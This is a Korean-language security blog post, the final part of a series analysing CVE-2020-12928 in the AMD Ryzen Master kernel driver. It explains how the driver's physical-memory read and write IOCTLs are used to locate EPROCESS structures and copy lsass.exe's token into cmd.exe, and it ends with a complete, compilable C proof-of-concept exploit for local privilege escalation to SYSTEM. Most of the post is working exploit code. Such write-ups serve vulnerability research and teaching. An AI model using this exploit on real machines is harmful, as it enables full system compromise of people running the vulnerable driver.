


# 시리즈 바로가기

[공대오빠가 알려주는 Windows Driver Part 1 - Setting Up Kernel Debugging](https://hackyboiz.github.io/2021/05/30/l0ch/windows-driver/)

[공대오빠가 알려주는 Windows Driver Part 2 - CVE-2020-12928: AMD Ryzen Master 분석(1)](https://hackyboiz.github.io/2021/07/14/l0ch/windows-driver-part2/)

[공대오빠가 알려주는 Windows Driver Part 3 - CVE-2020-12928: AMD Ryzen Master 분석(2)](https://hackyboiz.github.io/2021/07/28/l0ch/windows-driver-part3)

공대오빠가 알려주는 Windows Driver Part 4 - CVE-2020-12928: AMD Ryzen Master 분석(3) ← Now!

------

어느덧 시리즈 마지막 파트네요! 이번 파트는 Part 3에서 소개했던 exploit 시나리오대로 진행하는 권한상승 과정을 PoC 코드를 보면서 정리한 글입니다. 얼른 cmd창에서 `NT AUTHORITY\SYSTEM`을 띄워보자구요!

<br>

# Exploitation

## Parse EPROCESS

먼저 arbitrary read 프리미티브로 물리 메모리에 매핑되는 kernel pool에서 `EPROCESS` 구조체와 토큰을 찾아야 합니다.

- `EPROCESS` 는 `POOL_HEADER` 구조체에서 일정한 오프셋에 존재합니다.
- `POOL_HEADER`는 `0x636f7250`(Proc)태그가 존재합니다.

위에서 설명한대로 `POOL_HEADER` 구조체가 있는지 확인해볼게요.

```c
0: kd> !process 0 0 cmd.exe
PROCESS ffffbd010035b080
    SessionId: 1  Cid: 0424    Peb: af3c91000  ParentCid: 0c78
    DirBase: 18e84a000  ObjectTable: ffff9e8945b562c0  HandleCount:  68.
    Image: cmd.exe
```


`cmd.exe`의 EPROCESS 구조체 주소 `0xffffbd010035b080 - 0x80 + 0x4` 위치에 Proc 태그가 존재합니다.

<br>

이러한 오프셋이 일정한지 다른 프로세스인 `lsass.exe`도 한번 보도록 하겠습니다.

```c
PROCESS ffffbd0ffd7480c0
    SessionId: 0  Cid: 0294    Peb: 81e2405000  ParentCid: 01f4
    DirBase: 233b99000  ObjectTable: ffff9e893b5ff480  HandleCount: 1365.
    Image: lsass.exe
```



`lsass.exe`의 EPROCESS 구조체 주소 `0xffffbd0ffd7480c0 - 0x70 + 0x4` 위치에 Proc 태그가 존재하네요.

<br>

음.. 프로세스 별로 `POOL_HEADER`와 `EPROCESS` 사이 오프셋에 차이가 있네요. 그러나 두 사진 모두 파란색 박스를 보면 `EPROCESS` 주소의 하위 4 bytes 값은 항상 `0x00000003`으로 고정되어 있는 것을 확인할 수 있습니다. 그럼 Proc 태그를 찾고, 태그로부터 약 `0x100` 오프셋 사이의 `0x00000003` 값이 있다면 `EPROCESS` 구조체의 위치를 특정할 수 있겠네요! IOCTL `0x81112F08` 로 모든 kernel pool에 접근할 수 있으니 우리가 권한을 상승시키길 원하는 프로세스의 `EPROCESS` 또한 찾을 수 있습니다.

> 오프셋과 `EPROCESS` 하위 4 bytes 값 `0x00000003`은 윈도우 빌드 버전에 따라 다를 수 있습니다.

<br>

우선 전체 메모리를 서칭하며 `Proc` 태그가 존재하는 메모리 주소의 정보를 모두 기록하기 위해 `PROC_DATA` 구조체를 선언합니다.

```c
typedef struct {
    INT64 proc_address[300];
    INT64 page_entry_offset[300];
    INT64 header_size[300];
    INT64 proc_count;
} PROC_DATA;
```

<br>

이제 서칭할 물리 메모리 범위를 지정해야 하는데, 이 범위는 호스트의 전체 메모리나 (가상머신에서 테스트하는 경우) 가상머신에 할당된 메모리크기 등에 따라 영향을 받아 서칭할 메모리 범위가 크게 차이가 나기 때문에 테스트하는 환경에 맞게 설정해주어야 합니다. 제 경우는 호스트 PC 16GB, VM에 4GB를 할당했으며 `0x120000000` ~ `0x240000000` 범위로 지정을 했습니다.

```c
#define DEVICE_NAME         "\\\\\\\\.\\\\AMDRyzenMasterDriverV15"
#define WRITE_IOCTL         (DWORD)0x81112F0C
#define READ_IOCTL          (DWORD)0x81112F08
#define START_ADDRESS       (INT64)0x100000000
#define STOP_ADDRESS        (INT64)0x240000000

...

PROC_DATA read_memory(HANDLE dHandle)
{

    DWORD dwRet;
    PROC_DATA proc_data = { 0, };
    
    DWORD len = 0x1000;
    INT64 i = 0;

    while (1) {
        INT64 read_address = START_ADDRESS + (i * 0x1000);
        if (read_address >= END_OF_ADDRESS) {
            printf("END of Address\\n");
            return proc_data;
        }
        READ_INPUT_BUFFER input_buff = { read_address, len };
        LPVOID output_buff = VirtualAlloc(NULL, 0x100c, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
       
        DeviceIoControl(dHandle, READ_IOCTL, &input_buff, 0x40, output_buff, 0x100c, &dwRet, 0);
        
        INT64 result = (INT64)output_buff + 0xc;
        for (INT64 j = 0; j < 0xF60; j += 0x10) {
            PINT64 proc_ptr = (PINT64)(result + 0x4 + j);
            INT32 proc_val = *(PINT32)proc_ptr;
            if (proc_val == 0x636f7250) {
                for (INT64 k = 0; k < 0xA0; k += 0x10) {
                    PINT64 header_ptr = (PINT64)(result + j + k);
                    INT32 header_val = *(PINT32)header_ptr;
                    if (header_val == 0x00000003) {
                        INT64 tmp = read_address + j;
                        INT64 modulus = tmp % 0x1000;
                        proc_data.page_entry_offset[proc_data.proc_count] = modulus;
                        proc_data.proc_address[proc_data.proc_count] = tmp - modulus;
                        proc_data.header_size[proc_data.proc_count] = k;
                        proc_data.proc_count++;
                        printf("[%d] Proc chunks found\\n", proc_data.proc_count);
                       
                    }
                }
                
            }
        }
        i++;
    }
}

...
```

위 코드는 `0x120000000` ~ `0x240000000` 사이 Proc 태그의 주소를 모두 찾는 루틴입니다.

<br>

```c
INT64 read_address = START_ADDRESS + (i * 0x1000);
if (read_address >= END_OF_ADDRESS) {
	printf("END of Address\\n");
	return proc_data;
}
```

읽을 메모리 주소를 `0x120000000`부터 시작해 Page 크기인 `0x1000` 단위로 증가시키며 서칭을 진행합니다.

<br>

```c
READ_INPUT_BUFFER input_buff = { read_address, len };
LPVOID output_buff = VirtualAlloc(NULL, 0x100c, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
       
DeviceIoControl(dHandle, READ_IOCTL, &input_buff, 0x40, output_buff, 0x100c, &dwRet, 0);
INT64 result = (INT64)output_buff + 0xc;
```

`input_buff`에는 물리 메모리 주소와 길이(`0x1000`)를 주고, `output_buff`에 충분한 공간을 할당해 `DeviceIoControl` 함수로 `0x81112F08` IOCTL 요청을 보냅니다.  `0x81112F08` 은 METHOD_BUFFERED 로 input과 output 버퍼를 공유하기 때문에 IOCTL 결과 버퍼에 Input값이 포함되어 있습니다. 따라서 `output_buff`에 `0xc` (`INT64 read_address(0x8) + DWORD len(0x4)`) 만큼 더한 위치의 값이 IOCTL 요청의 결과값인 매핑된 가상 메모리 주소가 되고 `result`로 들어갑니다.

<br>

```c
for (INT64 j = 0; j < 0xF60; j += 0x10) { // Searching Proc Tag
	PINT64 proc_ptr = (PINT64)(result + 0x4 + j);
	INT32 proc_val = *(PINT32)proc_ptr
	if (proc_val == 0x636f7250) { 

		for (INT64 k = 0; k < 0xA0; k += 0x10) { //Searching marker (0x00000003
			PINT64 header_ptr = (PINT64)(result + j + k);
			INT32 header_val = *(PINT32)header_ptr;

			if (header_val == 0x00000003) {
				// save Proc chunk
				INT64 tmp = read_address + j;
				INT64 modulus = tmp % 0x1000;
				proc_data.page_entry_offset[proc_data.proc_count] = modulus;
				proc_data.proc_address[proc_data.proc_count] = tmp - modulus;
				proc_data.header_size[proc_data.proc_count] = k;
				proc_data.proc_count++;
				printf("[%d] Proc chunks found\\n", proc_data.proc_count);
			}
		}            
	}
}
```

우선 `result`에서 `0x10` aligned 단위로 루프를 돌며 `+0x4` 위치 주소의 값이 `0x635f7250`(Proc)인지 확인합니다. Proc 태그를 찾았으면 이후 `PROC_HEADER`의 예상 최대 크기인 약 `0xA0`까지 `0x10` 단위로 루프를 한 번 더 돌면서 `0x00000003` 값이 있는지 찾고, 찾으면 현재까지 구한 Proc tag address 와 page entry offset, header size를 저장합니다. 해당 값으로 이후에 다시 `EPRCEOSS`의 위치를 계산할 수 있습니다.

<br>

이제 저장된 `PROC_DATA` 구조체의 각 배열에서 `EPROCESS` 의 각 필드값(`ImageFileName`, `Token`, `UniqueProcessId`)을 구하고 `cmd.exe`프로세스의 `Token` 주소와 시스템 프로세스의 `Token` 값을 구합니다.

```c
void parse_proc(PROC_DATA proc_data, HANDLE dHandle) {
    DWORD bytes_ret = 0;
    DWORD num_of_bytes = 0x1000;

    LPVOID output_buff = VirtualAlloc(NULL, 0x100c, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    for (int i = 0; i < proc_data.proc_count; i++) {
        INT64 read_address = proc_data.proc_address[i];
        READ_INPUT_BUFFER input_buff = { read_address, num_of_bytes };

        DeviceIoControl(dHandle, READ_IOCTL, &input_buff, 0x40, output_buff, 0x100c, &bytes_ret, NULL);
        INT64 result = (INT64)output_buff + 0xc;
        INT64 EPROCESS = result + proc_data.page_entry_offset[i] + proc_data.header_size[i];
        
        INT64 imagename_address = EPROCESS + 0x5a8; //ImageFileName
        INT64 imagename_value = *(PINT64)imagename_address;
        INT64 proc_token_addr = EPROCESS + 0x4b8; //Token
        INT64 proc_token = *(PINT64)proc_token_addr;
        INT64 pid_addr = EPROCESS + 0x440; //UniqueProcessId
        INT64 pid_value = *(PINT64)pid_addr;
				
				if(imagename_value == 0x78652e737361736c) {  //lsass.exe - system process
					system_token_value = proc_token;
				}

        if (imagename_value == 0x6578652e646d63) {   //cmd.exe - target process
	        printf("cmd.exe found!!\\n");
	        cmd_token_addr = (read_address + proc_data.header_size[i] + proc_data.page_entry_offset[i] + 0x4b8);
        }
    }
}
```

`proc_address 주소에 매핑된 가상 주소 + page entry offset + header size` 가 `EPROCESS`의 위치가 되며 사전에 구한 `EPROCESS`의 각 필드의 오프셋을 더해 `Token`과 `ImageFileName`을 구할 수 있습니다. `ImageFileName`이 `cmd.exe`면 해당 `EPROCESS`의 `Token` 필드 주소를 저장하고, 시스템 프로세스 `lsass.exe`면 해당 프로세스의 `Token` 필드의 값을 저장합니다.


<br>

## Overwrite Token

이제 이전 파트에서 테스트한 것 처럼 `lsass.exe`의 `Token`값을 `cmd.exe`의 `Token` 필드에 overwrite하면 `cmd.exe`의 권한을 `NT AUTORITY\SYSTEM`으로 바꿔 권한 상승을 트리거할 수 있습니다.

```c
void overwrite_token(HANDLE dHandle) {
    DWORD modulus = cmd_token_addr % 0x1000;
    INT64 cmd_page = cmd_token_addr - modulus;
    DWORD bytes_ret = 0x0;
    DWORD read_num_bytes = modulus;
    PBYTE output_buff = (PBYTE)VirtualAlloc(NULL, modulus + 0xc, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    READ_INPUT_BUFFER input_buff = { cmd_page, read_num_bytes };

    DeviceIoControl(dHandle, READ_IOCTL, &input_buff, 0x40, output_buff, modulus + 0xc, &bytes_ret, NULL);

    PBYTE results = (PBYTE)((INT64)output_buff + 0xc);
    PBYTE cmd_page_buff = (PBYTE)VirtualAlloc(NULL, modulus + 0x8, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    DWORD num_of_bytes = modulus + 0x8;
		
		// page pool ~ before token
    memcpy(cmd_page_buff, results, modulus);
		// new token value 
    memcpy(cmd_page_buff + modulus, (void*)&system_token_value, 0x8);

    BYTE input_buff2[0x1000] = { 0, };
    memcpy(input_buff2, (void*)cmd_page, 0x8);
    memcpy(input_buff2 + 0x8, (void*)&num_of_bytes, 0x4);
    memcpy(input_buff2 + 0xc, cmd_page_buff, modulus + 0x8);

    DeviceIoControl(dHandle, WRITE_IOCTL, input_buff2, modulus + 0x8 + 0xc, NULL, 0, &bytes_ret, NULL);

}
```

이때 한 가지 문제점이 발생하는데, Page 단위로 매핑하기 때문에 memory write의 경우 정확히 Token 값 8 bytes만 overwrite할 수 없다는 문제가 있습니다.

해결법은 간단합니다! Page pool의 시작부터 `Token` 주소 전까지의 메모리값들을 `READ_IOCTL`로 모두 가져와 버퍼에 저장한 뒤, 해당 버퍼에 overwrite할 토큰값만 추가한 버퍼를 `WRITE_IOCTL 0x81112F0C`을 통해 input으로 전달하면 Page pool 시작주소부터 `Token` 주소 전까지는 exploit 전과 동일한 값이 유지되고 토큰값만 변경할 수 있습니다.

<br>

이제 cmd를 실행하고 빌드한 PoC를 실행하면..



익스 성공!

<br>

아래는 전체 PoC입니다.

```c
#include <Windows.h>
#include <stdio.h>

#define DEVICE_NAME         L"\\\\.\\AMDRyzenMasterDriverV15"
#define WRITE_IOCTL         (DWORD)0x81112F0C
#define READ_IOCTL          (DWORD)0x81112F08
#define START_ADDRESS       (INT64)0x120000000
#define END_OF_ADDRESS      (INT64)0x240000000

typedef struct {
    INT64 start_address;
    DWORD num_of_bytes;
    char receiving_buff[0x1000];
} READ_INPUT_BUFFER;

typedef struct {
    INT64 proc_address[300];
    INT64 page_entry_offset[300];
    INT64 header_size[300];
    INT64 proc_count;
} PROC_DATA;

INT64 cmd_token_addr = 0;
INT64 system_token_value = 0;

PROC_DATA read_memory(HANDLE dHandle)
{
    DWORD dwRet;
    PROC_DATA proc_data = { 0, };
    
    DWORD len = 0x1000;
    INT64 i = 0;

    while (1) {
        INT64 read_address = START_ADDRESS + (i * 0x1000);
        if (read_address >= END_OF_ADDRESS) {
            printf("END of Address\n");
            return proc_data;
        }
        READ_INPUT_BUFFER input_buff = { read_address, len };
        //printf("read address: %p\n",read_address);
        LPVOID output_buff = VirtualAlloc(NULL, 0x100c, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
       
        DeviceIoControl(dHandle, READ_IOCTL, &input_buff, 0x40, output_buff, 0x100c, &dwRet, 0);
        
        INT64 result = (INT64)output_buff + 0xc;
        for (INT64 j = 0; j < 0xF60; j += 0x10) {
            PINT64 proc_ptr = (PINT64)(result + 0x4 + j);
            INT32 proc_val = *(PINT32)proc_ptr;
            if (proc_val == 0x636f7250) {
                for (INT64 k = 0; k < 0xA0; k += 0x10) {
                    PINT64 header_ptr = (PINT64)(result + j + k);
                    INT32 header_val = *(PINT32)header_ptr;
                    if (header_val == 0x00000003) {
                        INT64 tmp = read_address + j;
                        INT64 modulus = tmp % 0x1000;
                        proc_data.page_entry_offset[proc_data.proc_count] = modulus;
                        proc_data.proc_address[proc_data.proc_count] = tmp - modulus;
                        proc_data.header_size[proc_data.proc_count] = k;
                        proc_data.proc_count++;
                        printf("[%I64d] Proc found\n", proc_data.proc_count);
                    }
                }
                
            }
        }
        i++;
    }
}

void parse_proc(PROC_DATA proc_data, HANDLE dHandle) {
    DWORD bytes_ret = 0;
    DWORD num_of_bytes = 0x1000;

    LPVOID output_buff = VirtualAlloc(NULL, 0x100c, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    for (int i = 0; i < proc_data.proc_count; i++) {
        INT64 read_address = proc_data.proc_address[i];
        READ_INPUT_BUFFER input_buff = { read_address, num_of_bytes };

        DeviceIoControl(dHandle, READ_IOCTL, &input_buff, 0x40, output_buff, 0x100c, &bytes_ret, NULL);
        INT64 result = (INT64)output_buff + 0xc;
        INT64 EPROCESS = result + proc_data.page_entry_offset[i] + proc_data.header_size[i];
        
        INT64 imagename_address = EPROCESS + 0x5a8; //ImageFileName
        INT64 imagename_value = *(PINT64)imagename_address;
        INT64 proc_token_addr = EPROCESS + 0x4b8; //Token
        INT64 proc_token = *(PINT64)proc_token_addr;
        INT64 pid_addr = EPROCESS + 0x440; //UniqueProcessId
        INT64 pid_value = *(PINT64)pid_addr;
        if (imagename_value == 0x78652e737361736c) {  //lsass.exe - system process
            printf("[>] system process [%s] found\n", (char*)imagename_address);
            system_token_value = proc_token;
        }

        if (imagename_value == 0x6578652e646d63) {
            printf("[>] [%s] found\n", (char*)imagename_address);
            cmd_token_addr = (read_address + proc_data.header_size[i] + proc_data.page_entry_offset[i] + 0x4b8);
        }
    }
}

void overwrite_token(HANDLE dHandle) {
    DWORD modulus = cmd_token_addr % 0x1000;
    INT64 cmd_page = cmd_token_addr - modulus;
    DWORD bytes_ret = 0x0;
    DWORD read_num_bytes = modulus;
    PBYTE output_buff = (PBYTE)VirtualAlloc(NULL, modulus + 0xc, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    READ_INPUT_BUFFER input_buff = { cmd_page, read_num_bytes };

    DeviceIoControl(dHandle, READ_IOCTL, &input_buff, 0x40, output_buff, modulus + 0xc, &bytes_ret, NULL);

    PBYTE results = (PBYTE)((INT64)output_buff + 0xc);
    PBYTE cmd_page_buff = (PBYTE)VirtualAlloc(NULL, modulus + 0x8, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(cmd_page_buff, results, modulus);
    memcpy(cmd_page_buff + modulus, (void*)&system_token_value, 0x8);
    
    DWORD num_of_bytes = modulus + 0x8;
    BYTE input_buff2[0x1000] = { 0, };
    memcpy(input_buff2, (void*)&cmd_page, 0x8);  //Physical address
    memcpy(input_buff2 + 0x8, (void*)&num_of_bytes, 0x4); // Number of bytes
    memcpy(input_buff2 + 0xc, cmd_page_buff, modulus + 0x8); // Address to be copied

    DeviceIoControl(dHandle, WRITE_IOCTL, input_buff2, modulus + 0x8 + 0xc, NULL, 0, &bytes_ret, NULL);

}

int main() {
    HANDLE dHandle;
    dHandle = CreateFileW(DEVICE_NAME, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    PROC_DATA proc_data;
    if (dHandle == INVALID_HANDLE_VALUE)
    {
        printf("Get Device Handle Fail : 0x%X \n", GetLastError());
        return 1;
    }

    proc_data = read_memory(dHandle);

    parse_proc(proc_data, dHandle);
    if (system_token_value == 0 || cmd_token_addr == 0) {
        printf("Get cmd.exe/SYSTEM token Fail\n");
        return 1;
    }

    printf("[>] cmd.exe token address: 0x%llx\n", cmd_token_addr);
    printf("[>] Overwriting token with value: 0x%llx\n", system_token_value);

    overwrite_token(dHandle);

    printf("[>] Complete\n");
    CloseHandle(dHandle);
    return 0;
}
```

기초가 부실해서 물리메모리 ↔ 가상 메모리 사이 매핑 프로세스를 제대로 다시 이해하느라 고생을 좀 한 거 말고는... 무난하게 분석했던 것 같네요. 역시 공부 한번 할 때 제대로 해놔야 나중에 고생을 안하지ㅠㅠ

다음에는 정상적인(?) 제목의 시리즈로 돌아오겠습니다! 안녕~

> 오류 및 오타지적은 끝없는 삽질에 도움이 됩니다.

# Reference

- https://h0mbre.github.io/RyzenMaster_CVE/
- https://h0mbre.github.io/atillk64_exploit/
- https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-mmmapiospace
- https://movaxbx.ru/2020/10/14/cve-2020-12928-exploit-proof-of-concept-privilege-escalation-in-amd-ryzen-master-amdryzenmasterdriver-sys/